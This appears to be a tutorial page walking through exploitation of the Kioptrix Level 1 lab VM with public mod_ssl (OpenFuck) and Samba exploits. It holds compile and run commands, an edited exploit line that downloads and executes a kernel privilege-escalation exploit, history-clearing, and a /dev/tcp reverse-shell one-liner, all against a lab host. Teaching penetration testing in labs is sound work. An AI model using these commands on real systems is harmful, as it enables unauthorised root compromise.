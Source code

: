.. _Kioptrix Lv1 Exploitation:

Exploitation
============

.. index::
   single: Metasploit
   single: SearchSploit

+-------------+----------------------------+
|**Reference**|:ref:`Metasploit`           |
|             |                            |
|             |:ref:`Python File Transfers`|
|             |                            |
|             |:ref:`SearchSploit`         |
+-------------+----------------------------+



.. _Kioptrix Lv1 SearchSploit:

Gathering Exploits with SearchSploit
------------------------------------

Now that we've discovered a couple vulnerabilities in our target, we should prioritize them according to which we think will be the most likely to succeed (and the easiest to pull off). With that in mind, let's examine our two candidates.

First up, we have the `OpenFuck` exploits for `Apache`. There are three different `EDB-ID` entries listed. We can examine them with `SearchSploit`'s ``-x`` flag, followed by their ID number. The second exploit appears to be an improvement on the first, and the third an improvement on the second, so we'll put the first two aside and focus on the last exploit, with ID 47080. Looking through the source code, this version appears to have options for our target's operating system and `Apache` versions:

.. code-block:: c

    [...]
    {"RedHat Linux 7.2 (apache-1.3.20-16)1",0x080994e5},
    {"RedHat Linux 7.2 (apache-1.3.20-16)2",0x080994d4},
    [...]

We'll create a copy of this exploit using `SearchSploit`'s ``-m`` flag:

.. code-block:: none

    kali@kali:~$ searchsploit -m 47080
      Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
          URL: https://www.exploit-db.com/exploits/47080
         Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/47080.c

Examining the `Samba` exploit, we can likewise see that the target OS is listed in the exploit's available targets:

.. code-block:: c

    [...]
    { "samba-2.2.x - Redhat 7.x           ", 0xbffff310, linux_bindcode, 0 },
    [...]

We'll copy this exploit as well:

.. code-block:: none

    kali@kali:~$ searchsploit -m 10
      Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
          URL: https://www.exploit-db.com/exploits/10
         Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/10.c

Next, we'll attempt to compile both exploits. To keep track of which is which, we'll rename them appropriately:

.. code-block:: none

    kali@kali:~$ mv 47080.c OpenFuck.c
    kali@kali:~$ mv 10.c samba_exploit.c

Next, we'll compile each according to the instructions outlined within each file.


Compiling the mod_ssl Exploit
------------------------------
The `mod_ssl` exploit provides the following command line for compilation, but `Kali` responds with an error:

.. code-block:: none

    kali@kali:~$ gcc -o OpenFuck OpenFuck.c -lcrypto
    OpenFuck.c:21:10: fatal error: openssl/ssl.h: No such file or directory
       21 | #include <openssl/ssl.h>
          |          ^~~~~~~~~~~~~~~
    compilation terminated.

It appears we're missing the ``openssl/ssl.h`` file, which is necessary for compilation. Using `Google`, we can see if anyone else has had any luck compiling this exploit by searching for "compile openfuck.c kali" (see Figure 5).

.. figure:: images/5-google-openfuck.png
   :width: 400px
   :align: center
   :alt: Search results for "compile openfuck.c kali"

   Search results for "compile openfuck.c kali"

The first link directs us to a `Medium` article that has a series of steps for compiling the exploit. But the second link looks even more appealing: it's an updated version of the `OpenFuck` exploit created in 2018. This seems promising! Let's check it out.

Clicking the link takes us to a `GitHub repository <https://github.com/heltonWernik/OpenLuck>`_ containing the ``OpenFuck.c`` source code and a ``README.md`` file containing compilation instructions. First, we should download the ``OpenFuck.c`` file. To do this, click the ``OpenFuck.c`` link, then click the **Raw** button on the top right of the source-code listing. This will provide us with the plain-text version of the code, which we can copy-and-paste into an ``OpenLuck.c`` file on `Kali`.

After saving the updated ``OpenLuck.c`` source code, we'll return to the README page and follow the directions for compiling the software. First, it says to install the `libssl-dev` software using `apt-get`:

.. code-block:: none

    kali@kali:~$ sudo apt-get install libssl-dev
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    [...]
    Preparing to unpack .../libssl-dev_1.1.1d-2_amd64.deb ...
    Unpacking libssl-dev:amd64 (1.1.1d-2) ...
    Setting up libssl-dev:amd64 (1.1.1d-2) ...

.. note::

    If you're using a secondary `host-only` network to communicate between `Kali` and the target system, you might need to switch to the primary network interface in order to allow `Kali` to access the internet and install this software. Once you're done, you can switch back to the secondary network in order to continue targeting `Kioptrix`.

With the appropriate library installed, compile the `OpenLuck` binary. If everything goes correctly, you should see no output, and you'll find the `OpenLuck` executable in your current directory:


.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto
    kali@kali:~$ ls -lah OpenLuck
    -rwxr-xr-x 1 kali kali 43K Apr  7 13:41 OpenLuck

Great! The exploit has been compiled. On to the next...


Compiling the Samba Exploit
---------------------------
Reading the source code of the ``samba_exploit.c`` file, we can see no special compilation instructions, so let's just compile it with a straightforward `gcc` command. We'll use the ``-o`` flag, followed by a filename, in order to name the resulting executable:

.. code-block:: none

    kali@kali:~$ gcc samba_exploit.c -o samba_exploit
    kali@kali:~$ ls -lah samba_exploit
    -rwxr-xr-x 1 kali kali 41K Apr  7 13:46 samba_exploit

As before, if compilation is successful, we should see no output from the `gcc` command, and the ``samba_exploit`` executable should be in the same directory.

Finally! It's time to test our exploits. Since we were able to compile both exploits, we'll just test them in alphabetical order: `Apache` first, then `Samba`.

.. warning::

    Before using any public exploits downloaded from the internet, it's always a good idea to read the exploit's source code. This is important for a number of reasons:

    * The exploit might require modification in order to work on your system or against your target.
    * By reading the source, you can gain a better understanding of how the exploit works.
    * Hackers have been known to release malicious "exploit" code which, when compiled and executed, actually harms the user's computer instead of working as expected. This has been done as an attack against "script kiddies" who download and run exploits without taking the time to understand how they work.

    By reading the source code of each exploit before you compile and execute it, you can not only improve your hacking knowledge and ensure that the code runs smoothly, but you can also protect yourself against malicious code.


Exploiting Apache's mod_ssl
---------------------------
To see how to run the ``OpenLuck`` exploit, we'll just execute the file with no command-line arguments:

.. code-block:: none

    kali@kali:~$ ./OpenLuck

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    : Usage: ./OpenLuck target box [port] [-c N]

      target - supported box eg: 0x00
      box - hostname or IP address
      port - port for ssl connection
      -c open N connections. (use range 40-50 if u dont know)


      Supported OffSet:
    [...]
            0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
            0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
    [...]

    Fuck to all guys who like use lamah ddos. Read SRC to have no surprise

According to the instructions, we must define the target of the exploit using a hexadecimal-formatted offset code, as well as the IP of the target. The port and ``-c N`` settings are optional, but we should at least specify the port to be as specific as possible.

Looking through the list of supported offsets (which I've pruned for brevity), we can see two possible options for `Red Hat Linux` version 7.2 with `Apache` version 1.3.20. Reading through the instructions provided on the `OpenLuck GitHub` page, it is advised to use the ``-c 40`` option to specify a count value of 40. Let's run the command, targeting `Kioptrix` on port 443:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6a 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
    * #hackarena  irc.brasnet.org                                     *
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
    *******************************************************************

    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f1c70
    Ready to send shellcode
    Spawning shell...
    Good Bye!

Curious... The exploit didn't work. Let's repeat the procedure, using the second offset (``0x6b``) and see if it works:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
    exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
    --18:39:24--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:80...
    dl.packetstormsecurity.net: Host not found.
    gcc: ptrace-kmod.c: No such file or directory
    gcc: No input files
    rm: cannot remove `ptrace-kmod.c': No such file or directory
    bash: ./p: No such file or directory
    bash-2.05$
    bash-2.05$

We got a shell! But what's all this about ``dl.packetstormsecurity.net``? Looking back at the source code to the exploit, we will discover the following lines:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Curious! From the looks of it, upon receiving a shell, the exploit attempts to execute these two commands on the target system. The first seems normal enough, but the second looks like it's reaching out to ``dl.packetstormsecurity.net`` to download and compile additional code. While this might work fine on a target connected to the Internet, I've configured `Kioptrix` to use a `host-only` network, which prevents it from being able to communicate with the outside world. Therefore, when it attempts to download this file, the download will fail, and the exploit will not run.

Despite this error, we've still got a shell. To which account do we have access?

.. code-block:: none

    bash-2.05$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache)

We're logged in as the ``apache`` user. From here, we would typically need to find a method of privilege escalation in order to gain access to the ``root`` account... But perhaps this is what the `OpenLuck` script was trying to do by downloading that file from `packetstormsecurity.net`?

Let's fix this script and see if we can grant `OpenLuck` access to this ``ptrace-kmod.c`` file. First, we'll download the ``ptrace-kmod.c`` file from `the specified URL <http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c>`_, making sure to inspect this code to see what it's doing. As suspected, it appears to be a `Linux` kernel privilege-escalation exploit. Copy the contents of this file, then paste them into a file called ``ptrace-kmod.c`` on your `Kali` system. Next, we'll need to modify the ``OpenLuck.c`` source code to download this file from our `Kali` host. Change the code as follows, injecting your own IP into ``COMMAND2``:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://10.1.1.100/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Next, re-compile the software as before:

.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto

With this complete, we only have one more step to accomplish before we can run the exploit against the target once more: we need to host the ``ptrace-kmod.c`` file with an HTTP server so that the target system can download it according to the command we provided. To accomplish this, open a new terminal in the same directory where the ``ptrace-kmod.c`` file is stored, and use `Python 3` to launch an HTTP server:

.. _Koptrix Lv1 Python HTTP Server:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

With this `Python 3` HTTP server in-place, let's run the exploit one more time:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
     p ptrace-kmod.c; rm ptrace-kmod.c; ./p; http://10.1.1.100/ptrace-kmod.c; gcc -o
    --18:46:07--  http://10.1.1.100/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to 10.1.1.100:80... connected!
    HTTP request sent, awaiting response... 200 OK
    Length: 3,737 [text/plain]

        0K ...                                                   100% @   3.56 MB/s

    18:46:07 (3.56 MB/s) - `ptrace-kmod.c' saved [3737/3737]

    [+] Attached to 1411
    [+] Waiting for signal
    [+] Signal caught
    [+] Shellcode placed at 0x4001189d
    [+] Now wait for suid shell...

Bingo! Checking on our `Python 3` HTTP server, we can see that the target downloaded the ``ptrace-kmod.c`` file:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.1.1.102 - - [07/Apr/2020 14:45:52] "GET /ptrace-kmod.c HTTP/1.0" 200 -

To top it off, it appears as if the secondary exploit was successfully compiled and executed on the target. There's no visible command prompt, but perhaps if we execute the `id` and `whoami` commands, we can figure out whether the privilege escalation attack was successful:

.. code-block:: none

    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    whoami
    root

Excellent! We've got a shell as the ``root`` user! We have successfully completed this challenge. But what about that `Samba` exploit? Let's see if we can get it working, too. After all, if this were a real penetration test, the goal wouldn't just be to "get root," but to reveal and demonstrate all of the vulnerabilities on the system.


Exploiting Samba
----------------
Let's run the `Samba` exploit without any command-line arguments, just to see how it works:

.. code-block:: none

    kali@kali:~$ ./samba_exploit
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    Usage: ./samba_exploit [-bBcCdfprsStv] [host]

    -b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
    -B <step>       bruteforce steps (default = 300)
    -c <ip address> connectback ip address
    -C <max childs> max childs for scan/bruteforce mode (default = 40)
    -d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
    -f              force
    -p <port>       port to attack (default = 139)
    -r <ret>        return address
    -s              scan mode (random)
    -S <network>    scan mode
    -t <type>       presets (0 for a list)
    -v              verbose mode

From the looks of it, we'll need to specify the platform at a minimum, using the ``-b`` flag. Let's give it a shot:

.. code-block:: none

    kali@kali:~$ ./samba_exploit -b 0 10.1.1.102
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    + Bruteforce mode. (Linux)
    + Host is running samba.
    + Worked!
    --------------------------------------------------------------
    *** JE MOET JE MUIL HOUWE
    Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
    uid=0(root) gid=0(root) groups=99(nobody)

The exploit worked quickly and effectively, and immediately granted root privileges! Can we get a better shell with `bash`? Let's give it a shot. First, we'll start a `netcat` listener on port 443:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...

Next, execute the following command in the `Samba` exploit terminal:

.. code-block:: none

    nohup bash -i >& /dev/tcp/10.1.1.100/443 0>&1 &

By using the `nohup` command, we can ensure that our new reverse shell will remain open, even if the original `Samba` exploit shell should be closed. Returning to `netcat`, we've got a `bash` shell:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...
    connect to [10.1.1.100] from (UNKNOWN) [10.1.1.102] 32773
    bash: no job control in this shell
    stty: standard input: Invalid argument
    [root@kioptrix tmp]#

Well done! We've successfully rooted this system via two different exploits.
